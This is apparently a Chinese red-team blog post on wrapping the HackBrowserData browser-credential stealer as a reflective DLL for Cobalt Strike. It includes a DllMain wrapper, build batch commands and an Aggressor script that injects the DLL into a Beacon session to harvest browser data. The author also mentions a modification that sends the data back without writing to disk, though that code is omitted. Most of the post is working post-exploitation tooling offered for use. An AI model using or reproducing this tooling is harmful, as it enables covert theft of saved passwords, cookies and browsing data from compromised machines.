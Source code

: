 # Go项目反射改造

## 简介

反射加载也没什么好说的，突然一时兴起想试一下能不能搞出来go的反射模块，发现已经有师傅铺好了路，这里手动@[WBGlIl](https://github.com/WBGlIl)师傅，选了用[HackBrowserData](https://github.com/moonD4rk/HackBrowserData)项目。

## 过程

首先修改一些默认选项，删除一些字符串，指定输出格式json，开启压缩存储。

![](../.gitbook/assets/image%20%28277%29.png)

复制一个main函数命名为run，导出它。

![&#x6CE8;&#x610F;&#x4E0A;&#x9762;&#x7684;&#x6CE8;&#x91CA;&#x662F;&#x53C2;&#x4E0E;&#x7F16;&#x8BD1;&#x7684;&#xFF0C;&#x58F0;&#x660E;&#x5BFC;&#x51FA;&#x3002;](../.gitbook/assets/image%20%28284%29.png)

添加如下文件。

```text
//dllmain.def

EXPORTS
    run
    ReflectiveLoader

//dllmain.c
#include "dllmain.h"
#include <Windows.h>
#include <stdio.h>
#define DLL_QUERY_HMODULE 6
extern HINSTANCE hAppInstance;
BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpReserved ) {
	BOOL bReturnValue = TRUE;
	switch( dwReason ) {
		case DLL_QUERY_HMODULE:
			if( lpReserved != NULL )
				*(HMODULE *)lpReserved = hAppInstance;
			break;
		case DLL_PROCESS_ATTACH:
			hAppInstance = hinstDLL;
			run();
			fflush(stdout);
			ExitProcess(0);
			break;
		case DLL_PROCESS_DETACH:
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
			break;
	}
	return bReturnValue;
}

//dllmain.go
package main

//#include "dllmain.h"
//#include "ReflectiveLoader.h"
import "C"

//ReflectiveLoader.h
这玩意就省略了...
```

然后使用如下bat编译。

```text
//x64
del dllmain.a
set GOARCH=amd64
go build -a -v --gcflags=-trimpath=$GOPATH -asmflags=-trimpath=$GOPATH -ldflags "-w -s" -buildmode=c-archive -o dllmain.a
gcc dllmain.def dllmain.a -shared -lwinmm -lWs2_32 -o dllmain.dll
move dllmain.dll reflective_dll.x64.dll
//x32
set GOARCH=386
set CGO_ENABLED=0
set path=E:\mingw32\bin\;%path%
go build --ldflags "-s -w" -buildmode=c-archive -o dllmain.a
gcc dllmain.def dllmain.a -shared -lwinmm -lWs2_32 -o dllmain.dll
move dllmain.dll reflective_dll.dll 

```

然后改造下这个项目，让他不落地回传数据，这部分代码就不贴了。

![](../.gitbook/assets/image%20%28281%29.png)

## 效果

都先patch一下。

![](../.gitbook/assets/image%20%28282%29.png)

都能跑起来。

![](../.gitbook/assets/image%20%28278%29.png)

编写cna脚本。

```text
alias hackDataBrowers {
	local('$dll');
	btask($1, "Task Beacon to run HackDataBrowers", "T9999");
	if (-is64 $1) {
		$dll    = getFileProper(script_resource("resources"), "reflective_dll.x64.dll");
	}
	else {
		$dll    = getFileProper(script_resource("resources"), "reflective_dll.dll");
	}
	bdllspawn($1, $dll , $2, "Get Browers Data", 5000, false);

}
```

### 遗留问题

这玩意体积太大了，cs的反射函数直接罢工。。。。。

## LINKS

{% embed url="https://github.com/WBGlIl" %}



